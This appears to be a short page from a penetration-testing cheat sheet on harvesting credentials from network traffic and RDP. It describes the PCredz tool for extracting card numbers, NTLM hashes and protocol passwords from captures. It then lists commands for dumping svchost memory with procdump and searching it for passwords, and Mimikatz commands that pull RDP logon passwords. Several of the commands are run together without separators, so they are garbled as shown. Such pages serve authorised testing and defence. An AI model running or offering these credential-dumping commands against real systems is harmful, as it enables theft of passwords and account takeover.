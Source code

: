 # 🟢 Network protocols

### PCredz

This tool extracts Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface.

{% embed url="https://github.com/lgandx/PCredz" %}

## RDP

Mimikatz and RDP protocol

#### Verify Service <a href="#verify-service" id="verify-service"></a>

sc queryex termservicetasklist /M:rdpcorets.dllnetstat -nob | Select-String TermService -Context 1

#### RDP Session Takeover <a href="#rdp-session-takeover" id="rdp-session-takeover"></a>

procdump64.exe -ma 988 -accepteula C:\svchost.dmpstrings -el svchost\* | grep Password123 -C3

#### RDP Passwords <a href="#rdp-passwords" id="rdp-passwords"></a>

privilege::debugts::logonpasswords
